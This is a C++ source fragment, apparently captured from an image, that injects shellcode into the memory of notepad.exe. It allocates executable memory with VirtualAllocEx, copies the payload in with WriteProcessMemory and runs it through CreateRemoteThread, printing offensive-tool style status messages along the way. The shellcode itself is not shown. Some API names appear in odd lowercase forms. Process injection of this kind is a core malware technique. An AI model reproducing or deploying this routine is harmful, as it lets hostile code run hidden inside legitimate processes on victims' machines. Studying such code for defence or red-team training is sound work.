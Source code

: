 ```cpp
	if (hProcess == NULL) {
		std::cout << "[!] OpenProcess Failed : " << GetLastError() << std::endl;
		return -1;
	}

	// Allocate space in the memory of notepad
	std::cout << "[+] Executing VirtualAllocEx ..." << std::endl;
	LPVOID buffer = virtualAllocEx(hProcess,
                              NULL,
                              sizeof shellcode,
                              MEM_RESERVE | MEM_COMMIT,
                              PAGE_EXECUTE_READWRITE);
	if (buffer == NULL) {
		std::cout << "[!] VirtualAllocEx Failed : " << GetLastError() << std::endl;
		return -1;
	}

	// Copy the shellcode in the memory of notepad.exe
	std::cout << "[+] Executing WriteProcessMemory ..." << std::endl;
	SIZE_T bytesWritten;
	BOOL writeProcess = writeProcessMemory(
		hProcess,
		buffer,
		shellcode,
		sizeof shellcode,
		&bytesWritten
	);
	if (writeProcess == NULL || bytesWritten != sizeof(shellcode)) {
		std::cout << "[!] WriteProcessMemory Failed : " << GetLastError() << std::endl;
		return -1;
	}

	// Execute the shellcode in a new thread
	std::cout << "[+] Executing CreateRemoteThread ..." << std::endl;
	HANDLE hThread = createRemoteThread(
		hProcess,
		NULL,
		0,
		(LPTHREAD_START_ROUTINE)buffer,
		NULL,
		0,
		NULL
	);
	if (hThread == NULL) {
		std::cout << "[!] CreateRemoteThread Failed : " << GetLastError() << std::endl;
		return -1;
	}

	std::cout << "[+] Executing WaitForSingleObjectEx ..." << std::endl;
	waitForSingleObjectEx(hThread, INFINITE, FALSE);

	std::cout << "[+] Executing CloseHandle ..." << std::endl;
	closeHandle(hProcess);

	std::cout << "Press <ENTER> to quit ...";
	getchar();

	return 1;
}
```
